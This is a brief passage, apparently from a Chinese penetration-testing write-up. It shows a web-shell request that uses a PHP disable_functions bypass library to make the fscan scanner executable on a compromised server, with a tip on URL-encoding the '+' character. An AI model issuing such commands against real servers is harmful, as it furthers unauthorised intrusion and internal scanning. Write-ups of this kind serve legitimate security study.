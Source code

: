 ![image-20250406210627574](./assets/image-20250406210627574.png)



赋予执行权限

```
?cmd=chmod %2bx /tmp/fscan&outpath=/tmp/xx&sopath=/tmp/bypass_disablefunc_x64.so
```

这里+x中的+要进行一次url编码，不然会被浏览器当成空格执行

![image-20250406210711502](./assets/image-20250406210711502.png)
